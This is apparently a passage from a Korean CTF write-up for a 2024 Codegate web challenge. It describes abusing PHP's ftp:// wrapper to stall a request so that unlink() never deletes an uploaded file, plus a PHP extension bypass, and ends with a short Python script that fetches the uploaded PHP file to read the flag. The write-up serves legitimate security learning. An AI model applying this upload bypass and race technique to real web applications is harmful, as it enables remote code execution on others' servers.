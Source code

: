 https://www.php.net/manual/en/wrappers.php 

위 링크에 존재하는 wrapper들은 모두 사용이 가능하기에 `ftp://`을 사용해주면 대략 30초 정도  `pending` 상태가 되어 `unlink()` 함수가 실행되지 않고 사용자가 파일에 접근이 가능해져 문제를 해결할 수 있게 된다.                           
                  
## Exploit Code     
      
- PHP Extension Bypass 
     
1. Method # 1 
<img src="/assets/images/ctf/2024/codegate/chas-wall/exploit.jpg" width="700px">      
      
2. Method # 2
<img src="/assets/images/ctf/2024/codegate/chas-wall/exploit2.jpg" width="700px">      
   
위 방식대로 파일 업로드 후, PHP 파일에 접근하면 플래그를 획득할 수 있다.    
       
```python
import requests 

url = "http://3.39.6.7:8000"

s = requests.session() 
s.cookies.set("PHPSESSID", "[SESSION]",domain=f"{url[7:]}")

r = s.get(
    f"{url}/uploads/fb7ba2078c91ec9b52730e624d6f5ed2/test.php",
)
if r.status_code == 200:
    print(r.text) 
```       